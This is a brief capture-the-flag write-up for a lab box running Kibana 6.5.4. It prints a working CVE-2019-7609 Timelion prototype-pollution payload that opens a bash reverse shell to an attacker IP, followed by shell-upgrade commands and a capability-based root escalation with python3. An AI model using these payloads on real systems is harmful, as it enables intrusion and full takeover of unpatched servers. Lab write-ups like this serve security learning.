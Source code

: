 # Kiba 🧭
Names | Details
--------|-----
Source |kiba
Level     | easy
Os |linux

**Notes :davad**


[


## Gaining Access 😉

- rustscan -a 10.10.100.210  found a open port 5601 
- kibana 6.5.4 is runing on it
- found a rce on that service CVE-2019-7609
- http://10.10.165.134:5601/app/timelion/
-``.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.4.123/1234 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')``

- exec http://10.10.100.210:5601/app/canvas#/
- got a reverse shell 




## Maintaining Access 🥷
 ### maintaining shell 
- ``script /dev/null/ -c bash
- ``python3 -c 'import pty;pty.spawn("/bin/bash")'
- ``stty rows 38 columns 116
- ``stty raw -echo; fg             <      >     reset
- .``/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``



## Important commands 🔥
- ``getcap -r /``

## Post Exploitation ✴️
- User flag : /home/kiba/user.txt
- Root flag : /root/root.txt
## Tips 💡
- rustscan is faster than nmap 
- 


--------------------------------
**By Whois~TCP ** 🤓🖥️






